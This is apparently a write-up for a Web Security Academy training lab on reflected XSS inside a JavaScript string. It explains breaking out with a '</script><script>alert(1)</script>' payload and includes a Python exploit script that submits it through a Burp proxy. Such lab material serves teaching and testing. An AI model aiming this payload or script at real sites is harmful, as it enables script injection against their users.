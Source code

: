 ```yaml
---
title: 'XSS Lab 18'
description: 'Cross-site scripting in a JavaScript string with single quotes and backslashes escaped'
---
```



## Reflected XSS into a JavaScript string with single quote and backslash escaped

<div style="text-align: justify;">
  This lab demonstrates a reflected cross-site scripting vulnerability where user input is embedded inside a JavaScript string. Both single quotes and backslashes are escaped by the application, preventing direct injection using those characters. To bypass this, you must close the `<script>` tag and inject your own script block, which successfully executes arbitrary JavaScript such as `alert(1)`.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search input is reflected inside a JavaScript string with escaping applied to single quotes (`'`) and backslashes (`\`).
- Simple injections like `test'payload` fail because of escaping.
- Instead, you inject an entire `</script>` closing tag, breaking out of the script context.
- Following it with `<script>alert(1)</script>` creates a new script block that executes JavaScript.
- This payload bypasses the escaping and successfully executes XSS.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '</script><script>alert(1)</script>'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```